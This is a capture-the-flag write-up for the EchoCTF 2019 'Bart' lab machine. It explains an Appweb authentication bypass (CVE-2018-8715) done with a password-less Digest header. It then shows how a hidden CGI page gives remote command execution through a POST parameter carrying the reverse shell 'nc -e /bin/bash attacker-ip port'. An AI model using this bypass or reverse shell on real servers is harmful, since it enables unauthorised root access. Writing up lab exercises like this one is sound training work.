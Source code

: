 <br>
<pre class="">    |\/\  ,.
    /   `' |,-,
   /         /_
 _/            /
(.-,--.       /
/o/  o \     /    Bart writeup
\_\    /   _/     URL: bart.echocity-f.com
(__`--'    _)     Author: HitmanAlharbi
 /         |      Team: Blackfoxs
(_____,'    \ 
   \_       _\
     `._..-'
</pre>

<br>

<b>Bart wrtieup for EchoCTF Cyber Saber 2019</b>

<br>

The target machine have one "<b><font color=green>open port</font></b>" (<b>8080</b>) 

This port have a service called "<b><font color=blue>Appweb Web Server</font></b>"

Let's open the URL with port <b>8080</b> in the browser because it's web server

When you open the URL it will ask you a password "<b>HTTP Authorization</b>"

We tried default credentials like "admin:admin" but not works

We tried too to brute force the password and username but now works

Okay now we decide to search about "<b>Appweb Web Server</b>" vulnerabilities

We have four CVEs but only one was interesting "<b><font color=red>CVE-2018-8715</font></b>" 

https://github.com/embedthis/appweb/issues/610

The CVE Vulnerability Details said that to bypass the the authentication

You should send the Authorization header with username only without password

For example: "<b><font color=blue>Authorization: Digest username=admin</font></b>"

We test it and really we bypassed the authorization successfully

Now take your flag from the source code and you will discover the main page was fake

We tried to fuzz the URLs but the web server blocked our attempts 

But we know the <b>EchoCTF</b> makers love to use the word "<b>ETSCTF</b>"

Because of that we tried many attempts and we find there is a page called <b><font color=blue>ETSCTF.cgi</font></b>

The Appweb server can run .cgi files without any problem 

Now this page runs the command "<b><font color=red>printenv</font></b>" , first take the two flags from page

The last step to get RCE , try to send a POST request with the parameter "<b><font color=red>ETSCTF</font></b>" has the command

For example: "<b><font color=blue>ETSCTF=nc -e /bin/bash attacker-ip port</font></b>"

Now you can execute commands with root permissions 

Take all the flags from server like <b>/etc/passwd</b> , <b>/root/ETSCTF</b> and <b>/var/www/html/ETSCTF.html</b>

PS: use grep always for example ( <b> grep -r 'ETSCTF' /var </b> )




